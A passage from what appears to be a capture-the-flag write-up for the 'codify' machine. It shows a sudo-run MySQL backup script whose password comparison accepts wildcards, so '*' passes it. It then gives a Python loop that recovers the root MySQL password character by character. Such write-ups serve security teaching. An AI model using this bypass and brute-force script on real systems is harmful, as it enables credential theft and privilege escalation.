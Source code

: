 ```bash

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'

joshua@codify:~$ ls -ltra  /opt/scripts/mysql-backup.sh
-rwxr-xr-x 1 root root 928 Nov  2 12:26 /opt/scripts/mysql-backup.sh
```

So, the `if` condition in the bash script allows to enter wildcard/regex? expresions, for instance if we put a simple `*` as password the script gets executed succesfully:
```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root:
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

### Brute-forcing root mysql password
So given that we have two outputs from running the script, we have two different text results which is kind of a blind brute-forcing.

The server has python3 installed, so here an script that can help:
```python
import string
import subprocess

password = ""
chars = string.ascii_letters + string.digits # alphabet and digits only

while True:
    for c in chars:
        cmd = "echo '{}{}*' | sudo /opt/scripts/mysql-backup.sh".format(password, c)
        output = subprocess.run(cmd, capture_output=True, shell=True)

        if "Password confirmed" in output.stdout.decode("utf-8"):
            password += c
            break
    else:
        break
```